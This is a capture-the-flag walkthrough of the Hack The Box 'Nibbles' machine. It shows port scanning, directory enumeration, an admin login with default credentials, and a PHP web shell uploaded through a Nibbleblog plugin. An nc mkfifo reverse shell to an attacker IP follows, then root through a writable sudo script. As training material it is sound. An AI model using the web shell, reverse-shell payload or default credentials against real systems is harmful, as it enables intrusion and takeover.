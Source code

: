 ## Nibbles

Machine IP: 10.10.10.75 
Difficulty: medium



## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/nibbles.nmap 10.10.10.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 06:57 EDT
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.32 seconds
```

- Home Wegpage
![hompeage](images/homepage.png)

- on `view page source` found
```html
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

![nibble_blog](images/nibble_blog.PNG)


### Enumeration

- on running gobuster, found

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.75/nibbleblog/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/04 07:02:09 Starting gobuster
===============================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
Progress: 22161 / 220561 (10.05%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/09/04 07:05:53 Finished
===============================================================

```

- on `README` access, found the version of `nibbleblog` 

```bash
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

- on searching `google git`, found 

![nibble_blog_git](images/nibble_blog_git.PNG)
- on trial found `install.php`

![install](images/install.PNG)

- On clicking `update`
![nibblenlog_onupadted][nibblenlog_onupadted.PNG]
- then visited  `admin.php` page

![admin_page](images/admin_page.PNG)

- on searching deafult credentials found `admin:nibbles` and tried.

__Result__
![admin_after_login](images/admin_after_login.PNG)

- On trying `php shell` upload on `My Image Plugin`, able to execute code

![image_upload](images/image_upload.PNG)

- `shell.php`

```bash
$ cat shell.php  
GIF8;
<?php echo system($_REQUEST['code']); ?>

```


- uploaded images can be found in `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/` - where its saved as `image.php`

__Result__

![code_Execution](images/code_Execution.PNG)

- create a reverse shell and set up a listener on kali

__Request__ (changed method to `POST`)
```php
POST /nibbleblog/content/private/plugins/my_image/image.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=voirb89373gb9d8vi172bn7b21
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.12+9002+>/tmp/f
```

__payload__

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 9002 >/tmp/f

```

__Result__

```bash
$ nc -lvnp  9002
listening on [any] 9002 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.75] 41028
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibble
```



### Privilege escalation

- on running `sudo -l`

```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

- directories doesnt exists in nibbler create and write file `monitor.sh` with
```bash
$ cat monitor.sh                               1 ⚙
#!/bin/sh

sh
```

- on executing `monitor.sh`, 
```bash
$ sudo ./monitor.sh
```

__Result__

```bash
$ sudo ./monitor.sh
id
uid=0(root) gid=0(root) groups=0(root)
```



